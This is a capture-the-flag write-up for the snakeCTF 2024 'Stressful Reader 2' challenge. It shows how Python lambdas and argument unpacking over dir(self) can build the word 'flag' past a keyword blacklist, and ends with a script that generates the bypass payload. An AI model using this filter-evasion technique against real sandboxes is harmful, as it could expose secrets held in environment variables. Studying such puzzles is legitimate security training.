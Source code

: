 # Stressful Reader 2 [_snakeCTF 2024 Quals_]

**Category**: Misc

## Description

I really, really, really want to read the $FLAG, but why is it so stressful?

## Solution

This challenge builds upon ["Stressful reader"](https://github.com/MadrHacks/snakeCTF2023-Writeups/blob/master/misc/stressful-reader/writeup.md) so with a bit of searching on the web a good starting point for the solution can be found.

As in "Stressful reader", the set of characters and keywords that can be used is extremely limited, and `lambda` functions are the way to go to bypass the blacklist. The difference with the previous version of the challenge is that object variables that allow to write `FLAG` easily are not available any more, so a different way to solve the challenge has to be found.

It can be seen that in the `get_var` function, the parameter `varname` is capitalised before being given to `os.getenv`:

```python
def get_var(self, varname):
    varname = varname.upper()
    print(os.getenv(varname))
```

It means that all it takes is finding a way to write "flag"! All the stuff that is needed can be found in `dir(self)`:

```python
>>> print(dir(self))
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__',
 '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__',
 '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__',
 '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
 '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'get_var',
 'run_code']
```

`lambda` functions and list expansions with `*` can be used to access the single letters of the strings in `dir(self)` to compose the word "flag", because:

```python
>>> (lambda s, n, a, k, e: s)(*"snake")
's'
```

All the letters that are needed can be found in `'__format__', '__class__','__ge__'`, so with a little script it's possible to generate the list of parameters that enable the decomposition of these strings and access the single characters:

```python
# Param names to access all the strings in dir(self)
params = ['a' * i for i in range(1,30)]

## there are 29 items in dir(self)

#  __format__ for 'f' -> 6th element in dir(self)
# __class__ for 'la' ->  0th element
# __ge__ for 'g' -> 7th element

def param_letters(s):
    return ['b'*i for i in range(1, len(s)+1)]

f = param_letters('__format__')
c = param_letters('__class__')
g = param_letters('__ge__')

payload = (f"self.get_var((lambda {','.join(params)} : " +
    f"(lambda {','.join(f)}: {f[2]})(*{params[6]}) +" +
    f"(lambda {','.join(c)}: {c[3]} + {c[4]})(*{params[0]}) +" +
    f"(lambda {','.join(g)}: {g[2]})(*{params[7]})" +
    ")(*dir(self)))"
)
```
